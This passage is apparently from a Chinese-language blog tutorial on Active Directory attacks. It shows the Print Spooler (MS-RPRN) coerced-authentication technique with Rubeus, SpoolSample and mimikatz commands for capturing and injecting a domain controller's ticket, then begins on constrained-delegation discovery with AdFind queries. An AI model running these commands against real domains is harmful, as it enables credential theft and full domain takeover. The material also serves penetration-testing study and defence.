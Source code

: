 强迫运行打印服务（Print Spooler）的主机向目标主机发起 Kerberos 或 NTLM 认证请求。

条件：需要administrator权限

利用Windows打印系统远程协议`（MS-RPRN）`中的一种旧的但是默认启用的方法，在该方法中，域用户可以使用MS-RPRN `RpcRemoteFindFirstPrinterChangeNotification（Ex）`方法强制任何运行了`Spooler`服务的计算机以通过`Kerberos`或`NTLM`对攻击者选择的目标进行身份验证。

`Print Spooler`服务默认是自动运行的

在域控上查看该服务是否启用

![spooler](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/spooler.png)

```shell
# 使用Rubeus监听来自域控的票据
Rubeus.exe monitor /interval:2 /filteruser:DC$
```

![rubues-listen](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/rubues-listen.png)

使用SpoolSample执行打印机漏洞，强制回连

```shell
# 强制回连，获得域控机器账户的TGT
SpoolSample.exe DC PC
```

Rubeus监听到日志事件4624，截取到域控的TGT票据

```shell
#直接将该票据注入到内存中
Rubeus.exe ptt /ticket:base64
```

获取到域控的票据之后，通过mimikatz进行导出，方便使用

```
sekurlsa::tickets /export
```

有了域控的票据，我们就能通过dcsync导出域内所有用户的hash,用于生成黄金票据，或是用于横向接管域控

## 约束委派

约束委派攻击利用了s4u的不安全特性,相教于非约束委派最大的特点就是只能访问特定的服务，约束的委派并不需要用户过来访问就可以代表该用户(对于 HOST SPN，则可以实现完全的远程接管。 对于 MSSQLSvc SPN，则可以拿到 DBA 权限。 对于 CIFS SPN 则可以实现完全的远程文件访问。对于 HTTP SPN 则可能实现接管远程网络服务，而对于 LDAP 则可以执行 DCSync;) ，对于 HTTP 或 SQL 服务帐户，即使它们没有提升目标服务器上的管理员权限，也可能使用 Rotten Potato 进一步滥用，提权至 SYSTEM 的权限)

### 查找域内配置了约束委派的账户

+ Adfind

  因为配置约束的委派的机子的UserAccount 配置了TRUSTED_TO_AUTH_FOR_DELEGATION flag位，TRUSTED_TO_AUTH_FOR_DELEGATION 对应是 0x1000000 ，也就是 1677721

  ```
  # AdFind.exe查询约束委派机器账户
  AdFind.exe -b "DC=hack,DC=com" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
  
  # AdFind.exe查询约束委派服务账户
  AdFind.exe -b "DC=hack,DC=com" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto
  ```
